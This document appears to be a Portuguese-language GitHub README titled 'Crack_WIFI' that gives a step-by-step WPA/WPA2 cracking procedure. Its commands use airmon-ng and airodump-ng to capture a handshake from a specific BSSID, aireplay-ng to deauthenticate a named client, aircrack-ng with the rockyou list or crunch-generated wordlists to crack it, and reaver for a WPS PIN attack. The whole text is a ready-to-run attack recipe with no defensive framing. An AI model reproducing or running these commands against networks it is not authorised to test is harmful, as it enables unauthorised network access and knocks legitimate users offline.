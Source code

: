 # Crack_WIFI
Crack_WIFI <br>
 <br>
airmon-ng check wlan0  <br>
airmon-ng check kill  <br>
airmon-ng start wlan0  <br>
airodump-ng wlan0 -a --band abg  <br>
airodump-ng -c 11 -d E4:C0:E2:1C:6E:6B -a --band abg wlan0  <br>
airodump-ng -c 11 -d E4:C0:E2:1C:6E:6B -a --band abg -w captura wlan0  <br>
aireplay-ng --deauth 0 -a E4:C0:E2:1C:6E:6B -c 28:87:BA:3A:AF:CF wlan0  <br><br>
<b> APENAS DEPOIS DE APARECER NO CAMPO NOTES EAPOL, PARA PODER PARAR A CAPTURA  </b> <br><br>
![IMAGE01](https://github.com/fernandomxm/Crack_WIFI/blob/main/image01.png) 
![IMAGE02](https://github.com/fernandomxm/Crack_WIFI/blob/main/wpa-4-way-handshake-workflow.png) <br> <br>
PODE SER UTILIZADO: wpaclean, para gerar o arquivo .cap "LIMPO", apenas com EAPOL KEY: <br>
<b>wpaclean clean.cap captura.cap</b>  <br><br>
<b> aircrack-ng -w /usr/share/wordlists/rockyou.txt -b E4:C0:E2:1C:6E:6B clean.cap  </b> <br>
<br>
Pode ser utilizada uma automatização com o crunch (On-the-Fly Wordlist Generation): <br> <br>
<b> crunch 8 10 -f /usr/share/crunch/charset.lst mixalpha | aircrack-ng -b E4:C0:E2:1C:6E:6B -w - clean.cap </b> <br> <br>
Dessa forma, ele ira gerar uma lista gigante de de teste, sem consumir espaço em disco. <br> <br>
Para gerar a wordlist pode ser usado o: <br>
crunch 8 10 -f /usr/share/crunch/charset.lst mixalpha -o wordlist.txt <br>
<br>
<b> apt -y install seclists </> <br>
O parâmetro PWR é o sinal WIFI. Quando mais perto de 0, melhor o sinal.  <br> <br> <br>
<b> FORMA VIA WPS SEM USO DE WORDLIST (Isso só funciona se o roteador estiver configurado para não usar PBC (Push Button Authentication) </b> <br>
wash --interface wlan0 <br>
reaver --bssid E4:C0:E2:1C:6E:6B  --channel 10 --interface wlan0 -vvv --no-associate <br>
aireplay-ng --fakeauth 30 -a E4:C0:E2:1C:6E:6B -h mac_wlan0 wlan0  <br> <br>
<b> Avaliar linha com: WPA PSK: </b>
